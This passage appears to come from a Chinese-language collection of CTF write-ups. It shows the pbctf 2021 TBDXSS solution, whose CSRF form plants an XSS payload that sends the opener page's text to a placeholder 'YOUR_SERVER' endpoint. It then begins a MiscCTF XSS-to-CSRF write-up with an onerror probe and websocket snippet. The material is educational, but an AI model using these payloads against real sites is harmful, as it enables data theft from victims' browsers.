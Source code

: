 ```html
<script>
open(location.href.replace('main', 'submit'), '_blank')
open(location.href.replace('main', 'opennote'), '_blank')
location.href = 'https://tbdxss.chal.perfect.blue/note'
</script>
```

- submit.php：标准csrf

```html
<form action="https://tbdxss.chal.perfect.blue/change_note" method="POST" id=f>
<input name="data" value="peko">
</form>
<script>
f.data.value = '<script>const report = t => fetch("https://YOUR_SERVER/xss.php", {method: "POST", body: t}); report(window.opener.opener.document.body.textContent)</'+'script>'
f.submit()
</script>
```

- opennote.php：delay后在新tab的/note中执行xss payload，由于是新tab，所以需要`window.opener.opener`才可以到原先的main.php

```html
<script>setTimeout(() => { open('https://tbdxss.chal.perfect.blue/note', '_blank') }, 1000)</script>
```

参考：[wp1](https://github.com/sambrow/ctf-writeups-2021/tree/master/perfect-blue-ctf/TBDXSS)  |  [wp2](https://blog.maple3142.net/2021/10/11/pbctf-2021-writeups/#tbdxss)  |  [wp3](https://blog.bawolff.net/2021/10/write-up-pbctf-2021-tbdxss.html)

## [MiscCTF 2021]XSS to CSRF

https://hg8.sh/posts/misc-ctf/xss-to-csrf/

聊天机器人，发送的语句可以包含Html 会被渲染，尝试

```
<img src=x onerror=alert(1)>
```

有反射型xsss

进一步了解这个Bot的工作，遇到"badwords"会暂停对话，说明在后端经过了某些检测

使用websocket进行内容的交互

![misc ctf chatbot websocket](https://user-images.githubusercontent.com/9076747/124016442-f240c000-d9e5-11eb-8acf-637f5c720f9c.png)

尝试直接建立与服务端的连接

```
websocket = new WebSocket('ws://misc.ctf:33433/');
websocket.onmessage = function(message) { console.log(message.data); }
websocket.send('test')
```

![misc ctf websocket chatbot connexion](https://user-images.githubusercontent.com/9076747/124016602-20be9b00-d9e6-11eb-91ea-f3653f1fe207.png)
